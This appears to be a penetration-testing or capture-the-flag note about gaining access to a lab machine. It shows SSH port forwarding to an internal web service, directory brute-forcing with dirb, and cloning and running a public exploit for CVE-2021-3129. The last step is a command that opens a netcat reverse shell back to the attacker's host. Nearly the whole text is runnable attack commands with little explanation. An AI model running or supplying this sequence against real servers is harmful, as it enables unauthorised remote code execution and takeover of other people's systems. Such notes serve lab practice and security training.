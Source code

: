 ####  example
FIRST, if the .ssh directory does not exist for the user, create it:

![[Port 22 - SSH  ~#Generate key upload to victim]]

Kali:
```bash - kali
ssh -i id_rsa -L 8000:localhost:8000 strapi@$TARGET
```

now visit 127.0.0.1:8000 in web browser

Now run web enumeration tools against localhost:8000/

```bash - kali
dirb http://$TARGET:8000 /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

```bash - kali
git clone https://github.com/nth347/CVE-2021-3129_exploit.git  
```

```bash - kali
cd CVE-2021-3129_exploit  
```

```bash - kali
chmod +x exploit.py
```

```bash - kali
./exploit.py http://localhost:8000 Monolog/RCE1 id
```

```bash - kali
./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $KALI 443 >/tmp/f"
```

